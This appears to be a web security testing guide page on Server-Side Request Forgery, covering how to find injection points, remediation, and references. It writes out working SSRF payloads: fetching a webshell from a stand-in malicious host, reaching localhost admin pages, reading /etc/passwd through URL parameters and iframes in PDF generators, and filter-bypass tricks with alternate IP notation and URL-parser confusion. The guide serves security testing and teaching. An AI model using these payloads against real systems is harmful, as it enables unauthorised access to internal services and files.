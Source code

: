 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide certain functionality, with the expectation that only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for injection attacks that are called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. However internal systems often contain sensitive data or functionality.

If we have the following request:

`https://example.com/page?page=about.php`, we can try the following payloads:

Return the content of an external resource like a webshell.

`https://example.com/page?page=https://malicioussite.com/shell.php`

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host then you have enough privileges to directly access the `admin` page.
These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what makes SSRF into a critical vulnerability.

`https://example.com/page?page=http://localhost/admin`

or

`https://example.com/page?page=http://127.0.0.1/admin`

Fetch a local file

`https://example.com/page?page=file:///etc/passwd`

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.
One important note on SSRF with POST requests is that the SSRF may also manifest in a Blind manner, because the application might not return anything immediately, that data might be used in other functionality such as PDF reports, invoice/order handling, etc. which are visible to employees/staff but not necessarily the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references).

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as the below examples that evaluate to `127.0.01`:
  - Decimal notation: `2130706433`
  - Octal notation: `017700000001`
  - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, check the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to block or stop without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, check out the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
